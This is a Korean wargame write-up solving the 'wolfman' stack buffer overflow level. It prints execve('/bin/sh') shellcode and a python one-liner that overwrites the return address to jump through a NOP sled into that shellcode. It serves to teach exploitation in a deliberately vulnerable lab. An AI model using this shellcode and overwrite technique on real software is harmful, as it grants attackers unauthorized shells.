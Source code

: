 

------



### 0x01. Analysis

orc문제와 똑같아 보이지만 마지막에 buffer hunter라고 해서 buffer배열의 40byte를 0으로 초기화하는 코드가 추가되었다.

앞서 orc문제에서 buffer배열에 Shellcode를 넣는 방법과, RET주소 뒤에 Stack영역에 Shellcode를 넣는 방법으로 문제를 풀어보라고 했었다.

이 문제는 **buffer배열을 초기화 하기 때문에 RET주소 뒤에 Stack영역에 Shellcode를 넣어서 풀면 될것 같다.**



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/05.wolfman/image-20180829012518015.png" width="600px">

------

### 0x02. Exploit

```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

> orc문제 풀이와 동일하기 때문에 상세 내용은 생략한다.

쉘코드가 넣을 주소를 알기 위해 core를 떨구자.

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/05.wolfman/image-20180829011701272.png" width="800px">

"S"부분이 쉘코드 24byte가 들어갈 자리이다.



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/05.wolfman/image-20180829011803090.png" width="600px">

0xbffffa64부분 언저리주소를 RET에 넣으면 NOP슬라이드를 타고 Shellcode가 실행된다.



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/05.wolfman/image-20180829012158062.png" width="800px">

```
./wolfman `python -c 'print "A"*44+"\x64\xfa\xff\xbf"+"\x90"*50+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
```

-----

